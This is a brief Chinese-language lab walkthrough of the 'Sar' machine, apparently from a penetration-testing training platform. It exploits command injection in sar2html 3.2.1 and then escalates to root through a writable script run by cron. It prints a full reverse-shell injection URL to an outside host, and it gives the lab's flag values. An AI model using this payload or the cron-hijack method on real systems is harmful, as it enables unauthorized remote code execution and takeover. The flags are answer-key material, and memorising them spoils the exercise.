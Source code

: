 # Sar

打Web
![](images/Qt2OC3S.png)

掃了一下路徑 感覺能用的東西蠻少的
![](images/Ur3BneQ.png)

robots.txt裡面有一行奇怪的東西 把它丟到路徑下可以進到一個奇怪的CMS sar2html 3.2.1
![](images/7b5J0Wt.png)

![](images/DSljrD4.png)

隨便查一下可以查到一個exploit 裡面內容蠻少的 感覺像是Command Injection

![](images/z1qnjR4.png)

![](images/u9rxPEZ.png)

輸入以後可以看到多出來幾個東西 點開第一個可以發現輸入id有效 把id改成reverse shell就可以直接RCE了

```
http://192.168.162.35/sar2HTML/index.php?plot=;bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.162%2F443%200%3E%261%27
```

![](images/YFHxfKV.png)

#### 提權

發現Cron會執行`/var/www/html/finally.sh`
![](images/RexwCGy.png)

到目錄下看 可以看到`finally.sh`會執行`write.sh` 而且我們有對`write.sh`寫入的權限
![](images/y5QXm75.png)

丟一個reverse shell進去 大概等一段時間就可以拿到root的shell了
![](images/M4xXEu4.png)

#### Proof

local.txt
`67330e8b480c61fe5613119db5c9a7d8`
![](images/bFkggTI.png)

proof.txt
`d86a65d198730217034a6d8202453ba4`
![](images/QS7fFB0.png)